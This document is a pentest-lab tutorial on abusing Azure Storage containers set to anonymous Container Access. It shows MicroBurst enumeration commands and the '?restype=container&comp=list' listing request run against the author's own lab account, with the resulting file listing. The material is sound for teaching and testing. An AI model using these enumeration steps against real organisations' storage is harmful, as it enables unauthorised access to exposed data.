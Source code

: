 ```yaml
---
author_name: andrei8055
title: Anonymous Blob Access
description: Finding and accessing files stored in Azure Storage Accounts without authentication.
---
```


Original Research: [0xPwN Blog - Create an Azure Vulnerable Lab: Part #1 – Anonymous Blob Access](https://0xpwn.wordpress.com/2022/03/05/setting-up-an-azure-pentest-lab-part-1-anonymous-blob-access/) 

"Storage Accounts" is the service provided by Azure to store data in the cloud. A storage account can used to store:

- Blobs
- File shares
- Tables
- Queues
- VM disks

![Azure Storage Account](https://www.partech.nl/-/media/habitat/images/blog/azure-storage-account/azure-storage-types.ashx?mw=900&hash=555BFCDE52A79D19432AA476A2935234)

For this tutorial, we will focus on the Blobs section. Blobs are stored within a container, and we can have multiple containers within a storage account. When we create a container, Azure will ask on the permissions that we grant for public access. We can chose between:

- Private Access – no anonymous access is allowed
- Blob Access – we can access the blobs anonymously, as long as we know the full URL (container name + blob name)
- Container Access – we can access the blobs anonymously, as long we know the container name (directory listing is enabled, and we can see all the files stored inside the container)

As you might have guessed, granting Container Access permission can be easily abused to download all the files stored within the container without any permissions as the only things required to be known are the storage account name and the container name, both of which can be enumerated with wordlists.

## Exploiting Anonymous Blob Access

Now, there are thousands of articles explaining how this can be abused and how to search for insecure storage in Azure, but to make things easier I’ll do a TL:DR. One of the easiest way is to use MicroBurst, provide the storage account name to search for, and it’ll check if the containers exists based on a wordlist saved in the Misc/permutations.txt:

```
PS > import-module .\MicroBurst.psm1
PS> Invoke-EnumerateAzureBlobs -Base 0xpwnstorageacc
Found Storage Account - 0xpwnstorageacc.blob.core.windows.net
Found Container - 0xpwnstorageacc.blob.core.windows.net/public
Public File Available: https://0xpwnstorageacc.blob.core.windows.net/public/flag.txt
```

Alternatively adding ```?restype=container&comp=list``` after the container name:
```
https://<storage_account>.blob.core.windows.net/<container>?restype=container&comp=list
```
Output:
```

<EnumerationResults ContainerName="https://0xpwnstorageacc.blob.core.windows.net/public">
	<Blobs>
		<Blob>
			<Name>flag.txt</Name>
			<Url>
https://0xpwnstorageacc.blob.core.windows.net/public/flag.txt
</Url>
			<Properties>
				<Last-Modified>Sat, 05 Mar 2022 18:02:14 GMT</Last-Modified>
				<Etag>0x8D9FED247B7848D</Etag>
				<Content-Length>34</Content-Length>
				<Content-Type>text/plain</Content-Type>
				<Content-Encoding/>
				<Content-Language/>
				<Content-MD5>lur6Yvd173x6Zl1HUGvtag==</Content-MD5>
				<Cache-Control/>
				<BlobType>BlockBlob</BlobType>
				<LeaseStatus>unlocked</LeaseStatus>
			</Properties>
		</Blob>
	</Blobs>
	<NextMarker/>
</EnumerationResults>
```

